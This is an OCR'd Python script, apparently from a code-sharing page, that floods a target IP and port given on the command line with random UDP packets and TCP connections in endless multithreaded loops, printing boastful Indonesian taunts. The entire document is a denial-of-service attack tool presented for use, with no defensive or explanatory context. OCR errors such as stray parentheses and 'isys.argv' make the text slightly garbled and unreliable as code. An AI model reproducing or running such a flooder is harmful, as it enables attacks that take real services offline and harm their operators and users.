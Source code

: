 import random
import sys
import socket
import threading

ip = str(sys.argv[1]))
port = int(isys.argv[2]))
choice = str(sys.argv[3]))
times = int(sys.argv[4]))
threads = int(sys.argv[5]))

def run():
	data = random._urandom(1180)
	i = random.choice(("[•]","[•]","[•]"))
	while True:
		try:
			s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
			addr = (str(ip),int(port))
			for x in range(times):
				s.sendto(data,addr)
			print(i +" XZ TEAM NIH BOSS!!!")
		except:
			print("[X] AMPUN BANG!!!")

def run2():
	data = random._urandom(180)
	i = random.choice(("[•]","[•]","[•]"))
	while True:
		try:
			s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
			s.connect((ip,port))
			s.send(data)
			for x in range(times):
				s.send(data)
			print(i +" XZ TEAM NIH BOSS!!!")
		except:
			s.close()
			print("[X] AMPUN BANG")

def run3():
	data = random._urandom(16)
	i = random.choice(("[•]","[•]","[•]"))
	while True:
		try:
			s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
			s.connect((ip,port))
			s.send(data)
			for x in range(times):
				s.send(data)
			print(i +" Axelord NIH BOSS!!!")
		except:
			s.close()
			print("[X] AMPUN BANG")

for y in range(threads):
	if choice == 'y':
		th = threading.Thread(target = run)
		th.start()
		th = threading.Thread(target = run2)
		th.start()
	else:
		th = threading.Thread(target = run3)
		th.start()
